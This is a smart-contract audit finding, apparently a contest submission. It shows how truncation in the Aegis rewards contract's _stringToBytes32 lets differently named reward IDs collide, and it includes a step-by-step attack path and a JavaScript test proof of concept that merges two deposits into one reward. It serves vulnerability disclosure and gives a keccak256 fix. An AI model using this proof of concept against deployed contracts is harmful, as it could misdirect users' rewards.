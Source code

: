 Hidden Aquamarine Cricket

High

# _stringToBytes32 Vulnerability Allows Reward ID Collision.

### Summary

Truncation in `_stringToBytes32` will cause a critical vulnerability that leads to "compromising" the reward system by creating different transactions that share the first 32 bytes of the additional data field.

### Root Cause

The [depositRewards()](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisRewards.sol#L158) calls the [_stringToBytes32()](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisRewards.sol#L188) that only reads the first 32 bytes of a string, causing different strings with identical prefixes to be mapped to the same bytes32 ID.
The issue occurs because the function uses memory layout manipulation via assembly to directly read the first 32 bytes of a string, without considering the complete string content. 
This makes it possible for two different strings to produce the same bytes32 ID if they share the same first 32 bytes.



### Internal Pre-conditions

Note, this could even happen unintentionally.
The only precondition is the ability to create valid orders (FUNDS MANAGER ROLE).


### External Pre-conditions

None

### Attack Path

1. Creates 2 different DEPOSIT_INCOME orders with the same first 32 bytes shared as additionalData(additionaldata1 ==> "reward-id-12345-is-identifier-and-is-equal" , additionalData2 ==> "reward-id-12345-is-identifier-and-is-different").

2. TrustedSigner signs the orders
3. Call the depositIncome() function for the two orders created.
4. The system processes both strings into the same bytes32 ID because _stringToBytes32 only reads the first 32 bytes
Rewards are added to the same reward entry in the _rewards mapping, despite being intended for different rewards


### Impact

Adding funds to an existing reward ID instead of creating a new reward.
Creating confusion in rewards.
Potentially triggering unintended reward distributions.

This can lead to incorrect distribution of rewards, affecting both the protocol's integrity and users' expected rewards.

PoC Below will show you:
1. How the protocol works when 2 different additionalDatas are passed ==> ["Blue is a colour", "3 is a number"]
2. How the protocol works when 2 similar additionalDatas that share the first 32 bytes are passed
["reward-id-12345-is-identifier-and-is-equal", "reward-id-12345-is-identifier-and-is-different"]
3. The demonstration of the same 32 bytes, for 2 different additionalDatas, of the second point

### PoC

```javascript
it("Add 2 different orders at the same ID", async()=>{
        const blockTime = await ethers.provider.getBlock("latest");
        await testToken.connect(account1).approve(minting.address, testToken.balanceOf(account1.address));


        console.log("\n--- TEST 1: This is how should Works using differents input---");
        console.log("");


        const firstOrderAdditionalData = ethers.utils.defaultAbiCoder.encode(
            ["string"],
            ["Blue is a colour"]
        );

        const secondOrderAdditionalData = ethers.utils.defaultAbiCoder.encode(
            ["string"],
            ["3 is a number"]
        );


        // Creates 2 DEPOSIT_INCOME order types
        const order1 = {
            orderType: OrderType.DEPOSIT_INCOME,
            userWallet: owner.address,
            beneficiary:"0x0000000000000000000000000000000000000000",
            collateralAsset: testToken.address,
            collateralAmount: ethers.utils.parseEther("100"),
            yusdAmount: ethers.utils.parseEther("100"),
            slippageAdjustedAmount: 0,
            expiry: blockTime.timestamp + 3600,
            nonce: 1,
            additionalData: firstOrderAdditionalData
        };

        const order2 = {
            orderType: OrderType.DEPOSIT_INCOME,
            userWallet: owner.address,
            beneficiary:"0x0000000000000000000000000000000000000000",
            collateralAsset: testToken.address,
            collateralAmount: ethers.utils.parseEther("50"),
            yusdAmount: ethers.utils.parseEther("50"),
            slippageAdjustedAmount: 0,
            expiry: blockTime.timestamp + 3600,
            nonce: 2,
            additionalData: secondOrderAdditionalData
        };


        // Sign Transactions
        const signature1 = await signOrder(order1, minting.address, trustedSigner);
        const signature2 = await signOrder(order2, minting.address, trustedSigner);


        // First Deposit
        await minting.depositIncome(order1, signature1);

        // Verify Rewards after first deposit
        const firstRewardId = await rewards.rewardById("Blue is a colour");
        console.log("First reward amount:", ethers.utils.formatEther(firstRewardId.amount));


        // Second Deposit
        await minting.depositIncome(order2, signature2);


        // Verify Rewards after second deposit
        const firstRewardIdAfter = await rewards.rewardById("Blue is a colour");
        console.log("First reward ID amount after second deposit:", ethers.utils.formatEther(firstRewardIdAfter.amount));

        const secondRewardId = await rewards.rewardById("3 is a number");
        console.log("Second reward ID amount:", ethers.utils.formatEther(secondRewardId.amount));

        // Verify if orders are been add on the same ID
        if (firstRewardIdAfter.amount.gt(order1.yusdAmount)) {
            console.log("VULNERABILITY CONFIRMED: Both rewards are been add to the same ID!");
        } else {
            console.log("Strings has first 32 bytes different.");
        }




        console.log("\n\n--- TEST 2: This how actually works with similar additional datas ---");

        const thirdOrderAdditionalData = ethers.utils.defaultAbiCoder.encode(
            ["string"],
            ["reward-id-12345-is-identifier-and-is-equal"]
        );

        const fourthOrderAdditionalData = ethers.utils.defaultAbiCoder.encode(
            ["string"],
            ["reward-id-12345-is-identifier-and-is-different"]
        );


        // Creates 2 DEPOSIT_INCOME order types
        const order3 = {
            orderType: OrderType.DEPOSIT_INCOME,
            userWallet: owner.address,
            beneficiary:"0x0000000000000000000000000000000000000000",
            collateralAsset: testToken.address,
            collateralAmount: ethers.utils.parseEther("100"),
            yusdAmount: ethers.utils.parseEther("100"),
            slippageAdjustedAmount: 0,
            expiry: blockTime.timestamp + 3600,
            nonce: 3,
            additionalData: thirdOrderAdditionalData
        };

        const order4 = {
            orderType: OrderType.DEPOSIT_INCOME,
            userWallet: owner.address,
            beneficiary:"0x0000000000000000000000000000000000000000",
            collateralAsset: testToken.address,
            collateralAmount: ethers.utils.parseEther("50"),
            yusdAmount: ethers.utils.parseEther("50"),
            slippageAdjustedAmount: 0,
            expiry: blockTime.timestamp + 3600,
            nonce: 4,
            additionalData: fourthOrderAdditionalData
        };


        // Sign Transactions
        const signature3 = await signOrder(order3, minting.address, trustedSigner);
        const signature4 = await signOrder(order4, minting.address, trustedSigner);


        // Third Deposit
        await minting.depositIncome(order3, signature3);

        // Verify Rewards after Third deposit
        const thirdRewardId = await rewards.rewardById("reward-id-12345-is-identifier-and-is-equal");
        console.log("Third reward amount:", ethers.utils.formatEther(thirdRewardId.amount));

        // Fourth Deposit
        await minting.depositIncome(order4, signature4);

        // Verify Rewards after second deposit
        const thirdRewardIdAfter = await rewards.rewardById("reward-id-12345-is-identifier-and-is-equal");
        console.log("Third reward ID amount after Fourth deposit:", ethers.utils.formatEther(thirdRewardIdAfter.amount));

        const fourthRewardId = await rewards.rewardById("reward-id-12345-is-identifier-and-is-different");
        console.log("Fourth reward ID amount:", ethers.utils.formatEther(fourthRewardId.amount));

        // Verify if orders are been add on the same ID
        if (thirdRewardIdAfter.amount.gt(order3.yusdAmount)) {
            console.log("VULNERABILITY CONFIRMED: Both rewards are been add to the same ID!");
        } else {
            console.log("Strings has first 32 bytes different.");
        }



        // Show problems printing
        console.log("\n\n--- Analyze string bytes ---\n");
        console.log("First 32 bytes of 'reward-id-12345-is-identifier-and-is-equal':");
        const bytes1 = ethers.utils.toUtf8Bytes("reward-id-12345-is-identifier-and-is-equal");
        console.log(Buffer.from(bytes1.slice(0, 32)).toString('hex'));
        console.log("");
        console.log("First 32 bytes of 'reward-id-12345-is-identifier-and-is-different':");
        const bytes2 = ethers.utils.toUtf8Bytes("reward-id-12345-is-identifier-and-is-different");
        console.log(Buffer.from(bytes2.slice(0, 32)).toString('hex'));
    });
```

### Mitigation

The vulnerability can be fixed using a proper hashing function to generate a unique bytes32 ID from the COMPLETE string, preventing the collision issue.
Using keccak256 will prevent this bug.
